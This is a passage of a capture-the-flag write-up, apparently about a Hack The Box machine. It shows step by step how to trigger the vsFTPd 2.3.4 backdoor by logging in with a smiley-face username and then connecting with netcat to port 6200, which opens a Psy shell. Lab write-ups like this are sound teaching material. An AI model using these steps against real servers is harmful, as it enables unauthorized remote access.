 The exploit was successful in opening the backdoor, but for some reason it failed to generate an interactive shell.

I tried to connect to the port manually with netcat: and sucessfully got a Psy shell.

```
nc -nv 10.10.10.131 6200

####

(UNKNOWN) [10.10.10.131] 6200 (?) open                                                                             
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman                                                              
ls                                                                                                                 
Variables: $tokyo                                                                                                  
```                                                                                                                   

It seems that we didn't need an exploit at all, just connecting via ftp and entering an username with a smileyface will open the door,
and connection with netcat gets us the shell.

I reset the box to test the theory.

```
ftp 10.10.10.131
Connected to 10.10.10.131.
220 (vsFTPd 2.3.4)
Name (10.10.10.131:root): sh1n0bi:)
331 Please specify the password.
Password:


```

The ftp connection seems to hang...so I open another terminal tab and try to connect to port 6200

```
nc -nv 10.10.10.131 6200
(UNKNOWN) [10.10.10.131] 6200 (?) open
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
ls
Variables: $tokyo
```

Yup it works!

Conclusion: manual exploit is easy, no need for execution of script.

<hr width="300" size="10">


We can find instructions and commands to use in this `psy` shell [here](https://github.com/bobthecow/psysh/wiki/Commands)

The `show` command allows us to examine the `$tokyo` variable.
